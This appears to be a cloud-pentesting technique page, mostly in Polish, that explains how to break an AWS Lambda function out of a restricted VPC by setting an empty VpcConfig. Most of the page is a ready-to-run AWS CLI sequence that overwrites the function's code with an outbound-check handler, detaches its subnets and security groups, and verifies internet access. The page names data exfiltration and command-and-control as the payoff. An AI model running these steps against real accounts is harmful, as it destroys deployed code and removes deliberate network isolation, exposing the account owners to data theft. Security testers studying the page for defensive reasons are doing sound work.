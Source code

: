# AWS Lambda – VPC Egress Bypass by Detaching VpcConfig

Wymuś wyjście funkcji Lambda z ograniczonego VPC, aktualizując jej konfigurację na pusty VpcConfig (SubnetIds=[], SecurityGroupIds=[]). Funkcja zacznie wtedy działać w Lambda-managed networking plane, odzyskując dostęp do internetu wychodzącego i omijając egress controls wymuszane przez prywatne podsieci VPC bez NAT.

## Abusing it

- Pre-reqs: lambda:UpdateFunctionConfiguration on the target function (and lambda:InvokeFunction to validate), plus permissions to update code/handler if changing them.
- Assumptions: The function is currently configured with VpcConfig pointing to private subnets without NAT (so outbound internet is blocked).
- Region: us-east-1

### Steps

0) Prepare a minimal handler that proves outbound HTTP works

cat > net.py <<'PY'
import urllib.request, json

def lambda_handler(event, context):
try:
ip = urllib.request.urlopen('https://checkip.amazonaws.com', timeout=3).read().decode().strip()
return {"egress": True, "ip": ip}
except Exception as e:
return {"egress": False, "err": str(e)}
PY
zip net.zip net.py
aws lambda update-function-code --function-name $TARGET_FN --zip-file fileb://net.zip --region $REGION || true
aws lambda update-function-configuration --function-name $TARGET_FN --handler net.lambda_handler --region $REGION || true

1) Record current VPC config (to restore later if needed)

aws lambda get-function-configuration --function-name $TARGET_FN --query 'VpcConfig' --region $REGION > /tmp/orig-vpc.json
cat /tmp/orig-vpc.json

2) Detach the VPC by setting empty lists

aws lambda update-function-configuration \
--function-name $TARGET_FN \
--vpc-config SubnetIds=[],SecurityGroupIds=[] \
--region $REGION
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done

3) Invoke and verify outbound access

aws lambda invoke --function-name $TARGET_FN /tmp/net-out.json --region $REGION >/dev/null
cat /tmp/net-out.json

(Optional) Restore original VPC config

if jq -e '.SubnetIds | length > 0' /tmp/orig-vpc.json >/dev/null; then
SUBS=$(jq -r '.SubnetIds | join(",")' /tmp/orig-vpc.json); SGS=$(jq -r '.SecurityGroupIds | join(",")' /tmp/orig-vpc.json)
aws lambda update-function-configuration --function-name $TARGET_FN --vpc-config SubnetIds=[$SUBS],SecurityGroupIds=[$SGS] --region $REGION
fi

### Impact
- Przywraca nieograniczony dostęp do internetu wychodzący z funkcji, umożliwiając data exfiltration lub C2 z workloadów, które były celowo izolowane w private subnets bez NAT.

### Example output (after detaching VpcConfig)

{"egress": true, "ip": "34.x.x.x"}

### Cleanup
- Jeśli utworzyłeś jakiekolwiek tymczasowe zmiany kodu/handlera, przywróć je.
- Opcjonalnie przywróć oryginalny VpcConfig zapisany w /tmp/orig-vpc.json jak pokazano powyżej.

